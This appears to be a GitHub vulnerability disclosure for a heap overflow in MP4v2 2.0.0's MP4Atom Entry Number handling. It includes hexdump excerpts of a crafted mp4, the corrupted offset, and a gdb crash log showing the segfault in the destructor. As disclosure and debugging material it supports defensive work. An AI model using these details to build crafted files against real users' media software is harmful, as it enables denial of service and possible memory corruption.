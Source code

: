 
MP4v2_BOF

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles

Entry Number validation for the MP4 Table Property, which allows remote attackers to cause a denial of service 

(overflow, insufficient memory allocation, and segmentation fault) 

or possibly have unspecified other impact via a crafted mp4 file.


MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. 

It causes Memory crash and Denial-Of-Service.

 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
 
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|



 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error

 gdb-peda$ r ../wim.mp4
 
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 
 /home/wim/.libs/lt-mp4info version 2.0.0
 
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.

registers

 EAX: 0x80695c0 --> 0x0
 
 EBX: 0xb7fd5000 --> 0x171e40
 
 ECX: 0x0
 
 EDX: 0x0
 
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
 

code
    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
    
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
 
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1
    
    
Guessed arguments:

 arg[0]: 0x80695c0 --> 0x0

stack

 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 
 0008| 0xbfffe898 --> 0xffffffff
 
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)

Legend: code, data, rodata, value

 Stopped reason: SIGSEGV
 
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
 
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i
